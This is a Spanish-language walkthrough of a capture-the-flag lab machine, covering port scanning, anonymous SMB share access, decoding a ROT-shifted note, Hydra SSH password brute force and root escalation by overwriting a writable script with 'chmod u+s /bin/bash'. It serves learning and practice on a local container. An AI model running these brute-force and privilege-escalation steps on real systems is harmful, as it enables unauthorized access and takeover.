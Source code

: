 Empezamos haciendo un escaneo de puertos:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y nos da los siguientes puertos abiertos:

```
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 4261/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Timeout)
|   Check 4 (port 17420/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-07-03T21:45:06
|_  start_date: N/A
|_clock-skew: 0s
```

Nos llama la atención el puerto 445, por lo tanto vamos a tirar el reconocimiento por ahí. 

Ejecutamos el siguiente comando:

```
smbclient -L 172.17.0.2 -N

    Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        darkshare       Disk      
        IPC$            IPC       IPC Service (5e24847105d5 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

Nos conectamos a smb y vemos que hay un montón de archivos. Nos los descargamos todos.

```
smbclient  \\\\172.17.0.2\\darkshare
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Dec 14 05:24:32 2024
  ..                                  D        0  Sat Dec 14 05:24:32 2024
  archivesDatabases.txt               N      563  Sat Dec 14 05:16:30 2024
  ilegal.txt                          N      204  Sat Dec 14 05:24:32 2024
  credentials.txt                     N      631  Sat Dec 14 05:17:13 2024
  hackingServices.txt                 N      662  Sat Dec 14 05:18:19 2024
  drugs.txt                           N      526  Sat Dec 14 05:17:49 2024
```

El archivo que nos muestra algo importante es el de *ilegal.txt*:

```
cat ilegal.txt         

St qj htrufwyfx jxyf uflnsf f sfinj, xtqt vznjwt vzj qt ajfx yz, df vzj jxyt rj uzjij rjyjw jq uwtgqjrfx: q2kmnaxwhgdy2sz5wnqrarvrmuemzlfn5xewrdwxdgtdpeaxtpki6ini.tsnts

#NOTE:

use 5, you understand me
```

Vemos que es un mensaje que puede estar cifrado. Probamos en cyberchef a ver en que está cifrado.

En cyberchef conseguimos descifrarlo, estaba cifrado en rot 2. El mensaje descifrado es:

```
No le compartas esta pagina a nadie, solo quiero que lo veas tu, ya que esto me puede meter el problemas: l2fhivsrcbyt2nu5rilmvmqmhpzhugai5szrmyrsyboykzvsokfd6did.onion
```

Se trata de una página de tor al ser .onion 
Nos devuelve esta web:

![](./images/1.png)


Le damos a *Access the Darkest Web* y nos muestra esto:

![](./images/3.png)

Seleccionamos *Red Room 27* y nos manda a esta página, donde le preguntamos por user, éste nos devuelve un nombre de usuario.

![](./images/5.png)

A continuación debemos buscar un diccionario para intentar hacer fuerza bruta con ese usuario 

En el apartado *Hidden Marketplace* vemos cosas sospechosas, por tanto leemos el código fuente y vemos un nombre de un posible diccionario

![](./images/7.png)

Vemos que nos tiene que redirigir a un archivo de texto, pero no sabemos como, probamos poniéndolo en la url y tenemos premio


![](./images/6.png)

Todas estas posibles contraseñas nos las metemos en un archivo y a continuación, con el usuario que tenemos (dark) hacemos fuerza bruta para entrar por ssh:

```
hydra -l dark -P contraseñas.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-03 18:32:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 51 login tries (l:1/p:51), ~4 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: dark   password: oniondarkgood
```

Y ahora entramos por ssh con estas credenciales y leemos la primera flag del usuario:

```
dark@5e24847105d5:~$ ls
hidden.py  user.txt
dark@5e24847105d5:~$ cat user.txt
2eedcb4e067f16aa9c795fd05f3056bd
dark@5e24847105d5:~$ 
```

Ahora para escalar privilegios hacemos un sudo -l:

```
dark@5e24847105d5:~$ sudo -l
Matching Defaults entries for dark on 5e24847105d5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dark may run the following commands on 5e24847105d5:
    (ALL : ALL) NOPASSWD: /home/dark/hidden.py
```

Vemos que ejecutamos como root ese script. Este script haría esto:

```
dark@5e24847105d5:~$ cat hidden.py 
#!/bin/python3

import subprocess

# Ruta al archivo Update.sh
script_path = '/usr/local/bin/Update.sh'

# Ejecutar el script de Bash
try:
    subprocess.run(['bash', script_path], check=True)
    print("Script ejecutado con éxito.")
except subprocess.CalledProcessError as e:
    print(f"Hubo un error al ejecutar el script: {e}")
```

Lo ejecutamos y:

```
dark@5e24847105d5:~$ ./hidden.py 
dark
Script ejecutado con éxito.
```

Si leemos el script vemos que ejecuta un Update.sh, que está en la ruta /usr/local/bin/. En dicha ruta somos del grupo de la carpeta por tanto podemos eliminarla y crearnos nuestro *Update.sh* de esta manera:

```
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos, le damos permisos de ejecución y ahora si ejecutamos el script como sudo:

```
dark@5e24847105d5:~$ sudo /home/dark/hidden.py
Script ejecutado con éxito.
dark@5e24847105d5:~$ bash -p
bash-5.2# whoami
root
```

Y finalmente, pwned :)